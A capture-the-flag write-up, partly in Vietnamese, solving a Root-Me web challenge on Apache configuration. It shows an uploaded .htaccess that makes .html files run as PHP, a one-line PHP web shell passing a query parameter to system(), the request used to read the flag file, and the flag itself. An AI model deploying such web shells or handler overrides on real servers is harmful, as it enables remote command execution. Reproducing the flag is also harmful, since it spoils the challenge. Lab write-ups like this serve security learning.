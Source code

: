 # [PHP - Apache configuration](https://www.root-me.org/en/Challenges/Web-Server/PHP-Apache-configuration)

## Solutions update 1

I came back here when an intern in my company stuck on this challenge and asked me.

He said that he did exactly what i did but it did not work. so i tried again and it was true.

It's seem like php execution is disabled in this folder.

So I walked around google to find a way to turn on php execution with .htaccess: <https://www.php.net/manual/en/apache.configuration.php>

updated solution:

- .htaccess

```config
AddHandler application/x-httpd-php .html
php_flag engine on
```

## Solutions

- Upload một file có tên `.htaccess` với nội dung là:

```text
AddHandler application/x-httpd-php .html
```

- Upload một file có tên là `test.html` với nội dung là:

```php
<?php
system($_GET['command']);
?>
```

- Gửi request đến URL mà server trả về kèm query parameter `?command=cat%20../../private/flag.txt` là lấy được flag: `ht@cc3ss2RCE4th%w1n`

## Giải thích

- Mỗi file `.htaccess` sẽ có ảnh hưởng đến directory chứa nó và các subdirectory.
- Mỗi người chơi rootme sẽ được cung cấp một sessionID cũng chính là tên folder chứa tất cả các file người dùng upload lên.
- `AddHandler application/x-httpd-php .html` sẽ làm cho các file html cùng directory với file `.htacccess` này chạy như file php.

## References

- <https://docs.oracle.com/cd/B14099_19/web.1012/q20206/howto/htaccess.html>
